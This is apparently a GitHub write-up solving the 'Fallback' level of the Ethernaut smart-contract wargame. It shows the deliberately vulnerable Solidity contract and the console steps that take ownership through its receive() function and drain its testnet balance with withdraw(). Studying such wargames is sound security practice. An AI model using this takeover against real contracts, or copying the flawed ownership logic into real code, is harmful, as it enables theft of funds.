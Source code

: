 ## Ethernaut-solution

### 1.Fallback

1. you claim ownership of the contract <br>
2. you reduce its balance to 0<br>

### learning
- How to send Ether when intracting with an ABI<br>
- How to send Ether outside of the ABI <br>
- Converting to and from wei/Ether units <br>
- Fallback methods <br>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;//internal database how much Ether each address has and how many token each address has, how much money each address has 
  address payable public owner;

//constructor deployed it set as owner 
  constructor() public {//executed lifecycle of smartcontract first get deploy
    owner = msg.sender; //send as owner 
    contributions[msg.sender] = 1000 * (1 ether); //mapping contribution set amount of Ether
  }

//modifier can applied any function in a smart contract 
  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

//contributionsの構成にsecurityhallがある
//何回もfunction contribute()を起動して、senderがownerよりcontributionsがmany many timesの状況になればownerになれてしまう

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }


  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

// this function is fallback function /you wanna send money to A contract 
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);//the best way attack become the owner
    //contributions条件を満たすことが攻撃の最初の準備。satisfy second condition first.
    owner = msg.sender;
  }
}
```
### solution 

- 1.you claim ownership of the contract 

*contract*...reference of our smart contract 
```
n {methods: {…}, abi: Array(7), address: '0xc3309271b114BFdC7DaDCAd2C3ED67116A798624', transactionHash: undefined, constructor: ƒ, …}
```

*contract.address*...smartcontract address 
```
'0xc3309271b114BFdC7DaDCAd2C3ED67116A798624'
```

*player*...my address 
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

```
await contract.contributions(player) 
o {negative: 0, words: Array(2), length: 1, red: null}
```

//Array 0: 0 。現状no valueなのがわかる
```
await contract.getContribution()
```

//0のまんま

//そこでcall contribute function! It's payable.value: 1 => 1 ETH 

//1ETH send 
```
contract.contribute({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```

//1ETH sendでaccount valueが増えているか確認 key:value 
```
await contract.contributions(player)
o {negative: 0, words: Array(2), length: 1, red: null}
```
//Array 0: 1 。

//ownerの確認 
```
await contract.owner()
//this smartcontract own address
'0x9CB391dbcD447E645D6Cb55dE6ca23164130D008'
```

//playerの確認 = まだownerになってない
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```
```
//sendTransaction is special function from web3.js 
contract.sendTransaction({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```
```
//transaction
⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177

```

//Transactionの成功によりcontractのownerが自分にchangeされているのを確認
```
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```



- 2.you reduce its balance to 0
```
//balanceの確認
await getBalance(contract.address)
'0.000000000000000002'
```

//function withdrawをreturn
//transfer all balance our wallet!
```
contract.withdraw()
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```
```

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
```

//balanceが"0"になっているのを確認
```
await getBalance(contract.address)

'0'
```
---
## References
[DeFi Developer Academy](https://www.youtube.com/watch?v=tLMPGqRZx_M&list=PLj7si-ttXQyLum2AkpEy8PHxLHJJ2nDd-&index=3)
